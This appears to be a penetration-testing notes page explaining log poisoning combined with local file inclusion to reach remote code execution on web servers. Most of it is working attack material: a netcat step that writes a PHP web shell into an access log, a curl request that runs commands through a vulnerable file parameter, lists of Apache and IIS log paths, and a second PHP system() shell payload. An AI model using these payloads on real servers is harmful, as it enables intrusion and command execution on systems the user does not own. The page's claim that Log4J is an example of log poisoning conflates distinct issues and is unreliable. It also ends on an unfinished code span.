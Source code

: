 # Log Poisoning

## Introduction

Log Poisoning is a type of [[File-Inclusion]] related attack that seeks to inject the log file of a server with malicious request that include code to then can then be used in an LFI payload. The infamous [[Log4J]] exploit is the famous recent example of Log Poisoning that leads to Remote Code Execution. Simple example being:
```bash
nc -nv $poor_web_server_ip 80
(UNKNOWN) [$poor_web_server_ip] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

## File Inclusion Code Execution

Vulnerable parameter `?file=` and  `&cmd`

```bash
curl "http://$poor_web_server/menu.php?file=c:\xampp\apache\logs\access.log&cmd=dir"
```

## Log File Locations:

To perform log poisoning we require a log file to poison. 

Linux
```bash
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access.log
# FreeBSD
/var/log/httpd-access.log
```
Windows
```
C:\xampp\apache\logs\access.log
```

[https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage](https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)
`C:\inetpub\logs\LogFiles\W3SVC1\`
`C:\inetpub\wwwroot\web.config`
Apache logs can be found in `C:\xampp\apache\logs`


## Located Controllable Log Fields

Use Burpsuite ([[Burpsuite-Helpsheet]]) or combination of `curl` ([[Curl-Cheatsheet]]) modifying the various possible fields contained in the log. 

```bash
# curl to burp proxy
curl 127.0.0.1 --proxy 8000
```

```bash
# Test Symbol filtering 
User-Agent: Add your testing message here" 
```
Test Symbol filtering most importantly the quotation escaping like the above.
```
# From: !@#$%$^&*()"':;<>,.?/`~ 
```

Controlling a modifiable field then leads to test whether the server or website language can execute code from this log file.  Beware of server side language handling the code. Notably if you see (for example `<?php`) script tags and the following executable code then there this code is not being passed to a function  that can execute the code.  

```php
<?php system($_REQUEST['cmd']); ?>
```

`url:/path/to/log/logname.log&cmd=

## References

[https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage](https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)